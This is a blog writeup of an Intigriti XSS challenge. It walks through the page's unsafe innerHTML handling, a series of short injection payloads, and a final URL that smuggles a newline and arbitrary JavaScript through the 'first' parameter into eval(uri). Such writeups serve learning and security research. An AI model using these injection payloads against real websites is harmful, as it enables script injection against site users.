 ```yaml
---
layout: post
title:  "February Xss Challenge Intigriti Writeup"
date:   2022-02-09 00:00:01 +0100
categories: writeup Intigriti
---
```


### Introduction

The [challenge site](https://challenge-0222.intigriti.io/challenge/xss.html) offers a nice interface which allows you to enter a username and answer to the following question: `Have you ever played this game?`. On submitting the same page is requested again with two parameters in the request: `q` and `first`. The first one contains the username and the second contains the string `yes` or `no` depending on our selection. The details of how this is handled is containined in one single script and can be found by simply inspecting the page source:
{% highlight js %}
window.name = 'XSS(eXtreme Short Scripting) Game'
function showModal(title, content) {
  var titleDOM = document.querySelector('#main-modal h3')
  var contentDOM = document.querySelector('#main-modal p')
  titleDOM.innerHTML = title
  contentDOM.innerHTML = content
  window['main-modal'].classList.remove('hide')
}

window['main-form'].onsubmit = function(e) {
  e.preventDefault()
  var inputName = window['name-field'].value
  var isFirst = document.querySelector('input[type=radio]:checked').value
  if (!inputName.length) {
    showModal('Error!', "It's empty")
    return
  }
  if (inputName.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
    return
  }
  window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
}

if (location.href.includes('q=')) {
  var uri = decodeURIComponent(location.href)
  var qs = uri.split('&first=')[0].split('?q=')[1]
  if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
  } else {
    showModal('Welcome back!', qs)
  }
}
{% endhighlight%}

### The Challenge ###

When the page is requested with the `q` and `first` parameters, the `showModal` function is executed and a popup is shown.There is some insecure `innerHTML` assignment in that function! We have a limit of 24 characters on the username (the `q` parameter), but let's try to inject some html code. For instance I tried `<img src=x/>` :

![Image injection](assets/FebChallenge_01.png)

That looks good! The image tag is injected and no sanitization is going on. Despite of this, injecting a script tag would not work because of the length constraints.

### A short payload ###

A collection of very short xss payloads is avaiable at [@terjanq](https://twitter.com/terjanq)'s [github repo](https://github.com/terjanq/Tiny-XSS-Payloads). At first I ended up trying `<svg/onload=alert(name)>`. This should be automatically parsed by the browser and adjusted to a valid `svg` tag. For instance `<svg onload="alert(name)"></svg>`.

![First xss](assets/FebChallenge_02.png)

It worked! But was it really so easy?

>The name variable is usually a propriety of window that can be overwritten by setting up an `iframe`... but not in this case! Looking back to the source code, we can see that the `name` variable is hardcoded at the first line. Nothing to do here! 

### What's next? ###
We have an alert but no arbitrary javascript execution is possible. By injecting `<svg/onload=eval(name)>`, the content of `name` is evaluated and executed. This seems a good way to go but we don't really can control the `name` variable. At this point, I looked for other variables that we can control. To do so, I placed a breakpoint on `contentDOM.innerHTML = content` and inspected the `Scope` tab in the inspector to see all variables We have access in this context. My research revealed only three valid (short enough) strings that we can use: `name`,`qs` and `uri`. Look at that, we can control the uri!

I spent some time trying to get something out of this. At some point I tried the following in the  js console:

```
> https://example
  2
< 2
```
In other words, `https://example` and `1` on the next line is valid javscript! To double check:

```
> eval("https://challenge\n1")
< 1
```
`https:1` is treated as a `key:value` pair, and the fact that they are separated by a comment (starting with `//`) and a newline (`\n`) is not a problem!

### The exploit ###

With this knowledge we can solve the challenge! We control the url and in particular we can set the `first` parameter to anything we want. Because before beeing assigned to `uri`, the url is urlDecoded with `decodeURIComponent()` we can also inject newlines using `%0a`. To make the uri valid we need a newline, a number, a semi-colon and then arbitrary javascript! We can do so by setting the `first` variable to `%0a1;alert(document.domain)`. Our username instead will be set to `<style/onload=eval(uri)>`, to evaluate the uri!
Final payload will be:
```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle%2Fonload%3Deval(uri)%3E&first=%0A1;alert(document.domain);
```
To visit the link you can click [here](https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle%2Fonload%3Deval(uri)%3E&first=%0A1;alert(document.domain);). 

![Final alert](assets/FebChallenge_03.png)

Alert! Very nice challenge and don't forget to follow [intigriti](https://twitter.com/intigriti) on twitter to stay updated for the ones that are coming!

>Note: I used a `style` tag instead of an `svg` tag because the original payload wasn't firing on firefox. I investigated and it seems like firefox executes the `onload` event on `svg` and `img` tags only when they are loaded from external resources (e.g. they use the `src` attribute).

